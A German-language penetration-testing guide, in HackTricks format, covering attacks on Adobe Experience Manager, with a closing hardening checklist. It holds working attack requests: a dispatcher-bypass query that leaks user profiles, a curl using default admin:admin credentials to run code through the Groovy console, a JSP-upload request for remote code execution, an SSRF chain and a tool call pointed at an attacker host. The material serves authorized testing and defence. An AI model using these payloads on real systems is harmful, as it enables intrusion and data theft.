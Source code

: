 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, Teil der Adobe Experience Cloud) ist ein Unternehmens-CMS, das auf Apache Sling/Felix (OSGi) und einem Java Content Repository (JCR) basiert.
> Aus der Perspektive eines Angreifers exponieren AEM-Instanzen sehr oft gefährliche Entwicklungsendpunkte, schwache Dispatcher-Regeln, Standardanmeldeinformationen und eine lange Liste von CVEs, die jedes Quartal gepatcht werden.

Die folgende Checkliste konzentriert sich auf **extern erreichbare (unauth) Angriffsflächen**, die in realen Engagements immer wieder auftauchen (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Andere schnelle Indikatoren:
* `/etc.clientlibs/` statischer Pfad vorhanden (gibt JS/CSS zurück).
* `/libs/granite/core/content/login.html` Anmeldeseite mit dem Banner „Adobe Experience Manager“.
* `</script><!--/* CQ */-->` Kommentar am Ende des HTML.

---

## 2. Hochwertige nicht authentifizierte Endpunkte

Pfad | Was Sie erhalten | Anmerkungen
---- | ------------- | -----
`/.json`, `/.1.json` | JCR-Knoten über **DefaultGetServlet** | Oft blockiert, aber *Dispatcher-Bypass* (siehe unten) funktioniert.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Leak des Seitenbaums, interner Pfade, Benutzernamen.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix-Konsole | Standardmäßig 403; wenn exponiert & Anmeldeinformationen gefunden ⇒ Bundle-Upload RCE.
`/crx/packmgr/index.jsp` | Paketmanager | Ermöglicht authentifizierte Inhalts-Pakete → JSP-Payload-Upload.
`/etc/groovyconsole/**` | AEM Groovy-Konsole | Wenn exponiert → beliebige Groovy / Java-Ausführung.
`/libs/cq/AuditlogSearchServlet.json` | Audit-Protokolle | Informationsoffenlegung.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs-Dump | XSS-Vektor.

### Dispatcher-Bypass-Trick
Die meisten Produktionsseiten befinden sich hinter dem *Dispatcher* (Reverse-Proxy). Seine Filterregeln können umgangen werden, indem eine erlaubte statische Erweiterung **nach einem Semikolon oder kodierten Zeilenumbruch** angehängt wird:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Eine einzelne Anfrage wie oben offenbart häufig Benutzerprofilknoten mit E-Mail-Adressen. P-T Partners veröffentlichte gute Hinweise zu dieser Schwachstelle. 【】

---

## 3. Häufige Fehlkonfigurationen (immer noch aktiv im Jahr 2025)

1. **Anonymer POST-Servlet** – `POST /.json` mit `:operation=import` ermöglicht es, neue JCR-Knoten zu erstellen. Das Blockieren von `*.json` POST im Dispatcher behebt das Problem. 【】
2. **Weltweit lesbare Benutzerprofile** – Standard-ACL gewährt `jcr:read` auf `/home/users/**/profile/*` für alle.
3. **Standardanmeldeinformationen** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** aktiviert ⇒ reflektiertes XSS über `?debug=layout` (CVE-2016-7882, immer noch bei Legacy 6.4-Installationen gefunden).
5. **Groovy-Konsole exponiert** – Remote-Code-Ausführung durch das Senden eines Groovy-Skripts:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Jüngste Schwachstellen (Service-Pack-Taktung)

Quartal | CVE | Betroffen | Auswirkung
------- | --- | -------- | ------
Dez 2024 | **CVE-2024-43711** | 6.5.21 und früher | Unzureichende Eingangsvalidierung → **Willkürliche Codeausführung** (benötigt Authentifizierung mit niedrigen Rechten). 【】
Dez 2024 | CVE-2024-43724/26 | 6.5.21 und früher | DOM / Stored XSS im Move Page Wizard. 【】
Dez 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | DOM-basiertes XSS über eine gestaltete URL. 【】
Dez 2022 | CVE-2022-30683 | ≤ 6.5.13 | Krypto-Designfehler → geheime Entschlüsselung (benötigt Anmeldeinformationen mit niedrigen Rechten). 【】

Überprüfen Sie immer das *APSB*-Bulletin, das dem Service-Pack des Kunden entspricht, und fordern Sie das neueste **6.5.22** oder *Cloud Service 2024.11* an.

---

## 5. Ausnutzungs-Snippets

### 5.1 RCE über Dispatcher-Bypass + JSP-Upload
Wenn anonymes Schreiben möglich ist:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Jetzt anfordern `/content/evil.jsp` – das JSP läuft mit dem AEM-Prozessbenutzer.

### 5.2 SSRF zu RCE (historisch < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` von **aem-hacker** automatisiert die gesamte Kette. 【】

---

## 6. Tooling

* **aem-hacker** – Schweizer Taschenmesser für die Enumeration, unterstützt Dispatcher-Bypass, SSRF-Erkennung, Standard-Credentials-Überprüfungen und mehr.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – rekursiv `/_jcr_content.(json|html)` anfordern, um versteckte Komponenten zu entdecken.
* **osgi-infect** – bösartiges OSGi-Bundle über `/system/console/bundles` hochladen, wenn Credentials verfügbar sind.

---

## 7. Hardening-Checkliste (für die Empfehlungen Ihres Berichts)

1. Halten Sie die Instanz auf dem **neueste kumulative Servicepack** (Stand Juli 2025: 6.5.22).
2. Entfernen/rotieren Sie Standardkonten; erzwingen Sie SSO/SAML.
3. Verschärfen Sie die **Dispatcher-Filter** – verweigern Sie `;`, kodierte Zeilenumbrüche und `*.json` oder `*.querybuilder.json` für anonyme Benutzer.
4. Deaktivieren oder schützen Sie Konsolen (`/system/console`, `/crx/*`, `/etc/groovyconsole`) mit IP-Whitelist.
5. Wenden Sie das *Anonymous Permission Hardening*-Paket an, das von Adobe bereitgestellt wird.

## References

* Adobe Security Bulletin APSB24-69 – „Sicherheitsupdates für Adobe Experience Manager (Dez 2024)“.
* 0ang3el – aem-hacker Tool (GitHub).
{{#include ../../banners/hacktricks-training.md}}
